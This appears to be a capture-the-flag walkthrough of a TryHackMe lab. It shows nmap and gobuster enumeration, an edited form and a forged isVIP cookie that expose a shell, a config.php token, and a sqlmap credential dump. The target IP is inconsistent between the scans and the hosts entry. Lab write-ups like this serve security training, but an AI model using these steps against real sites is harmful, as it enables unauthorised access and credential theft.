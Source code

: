 ### TryHackMe Room: Incident Storyline


#### Objectives

- Find the invite code for the hackme.thm website.
- Obtain the password for the user `guest@hackme.thm`.
- Retrieve the secure token for accessing the admin panel.
- Identify the flag value after enabling the registration feature and achieving 3 million subscribers.

### Lab Connection

I connected to the lab by starting the machine, which took about 3-5 minutes to load. I used the IP address `10.10.12.34` for accessing the services.

### Initial Enumeration

#### Nmap Scan

I started with a quick Nmap scan to identify open ports and services on the target:

```sh
nmap -sV 10.10.12.34
```

```plaintext
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 20:42 BST
Nmap scan report for 10.10.12.34
Host is up (0.042s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8000/tcp open  http     Splunkd httpd
8089/tcp open  ssl/http Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Server Enumeration

#### Browsing the Website

Browsing the IP `10.10.12.34` didn't reveal any immediate clues. Therefore, I used Gobuster to brute-force directories and files.

```sh
gobuster dir -u http://10.10.12.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

```plaintext
/img (Status: 301)
/css (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

#### Inspecting the Website

Inspecting the page `http://capture3millionsubscribers.thm/sign_up.php` provided a clue in the JavaScript code:

```javascript
function e() {
  var e = window.location.hostname;
  if (e === 'capture3millionsubscribers.thm') {
    var o = new XMLHttpRequest;
    o.open('POST', 'inviteCode1337HM.php', true);
    o.onload = function () {
      if (this.status == 200) {
        console.log('Invite Code:', this.responseText)
      } else {
        console.error('Error fetching invite code.')
      }
    };
    o.send()
  } else if (e === 'hackme.thm') {
    console.log('This function does not operate on hackme.thm')
  } else {
    console.log('Lol!! Are you smart enought to get the invite code?')
  }
}
```

I added the following entries to `/etc/hosts` to resolve the domains:

```plaintext
10.10.45.229    hackme.thm capture3millionsubscribers.thm
```

### Exploitation Steps

#### Modifying the Form Action

I modified the form action to obtain the invite code:

```html
<form action="inviteCode1337HM.php" method="post">
  <div class="form-group">
    <label>Registration is currently disabled! Invite-only access. <br> <span style="color: red;"></span></label>
  </div>
  <div class="form-group">
    <label>Invite Code</label>
    <input type="password" class="form-control" name="password" placeholder="Invite Code" required="">
  </div>
  <button type="submit" class="btn btn-hgreen">Enter Invite Code</button>
</form>
```

#### Accessing the VIP Module

I used the browser developer tools to modify the cookie and access the VIP section:

1. Change the cookie value to `isVIP=true`.
2. Edit the HTML input field to:

    ```html
    <input type="hidden" id="isVIP" value="true">
    ```

This action unlocked the VIP section, revealing a shell.

#### Extracting Credentials

Once inside, listing the files revealed `config.php`:

```sh
ls
```

The `config.php` contained the admin token and URL. The URL was protected, so I used Gobuster to find the login page:

```sh
gobuster dir -u http://admin1337special.hackme.thm:40009/public/html/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

```plaintext
/public/html/login (Status: 200)
```

### SQL Injection Attack

Using sqlmap, I performed an SQL injection to extract credentials:

```sh
sqlmap -r req2.txt --batch --dump
```

This revealed the admin credentials, allowing me to access the admin panel and restore the registration functionality.
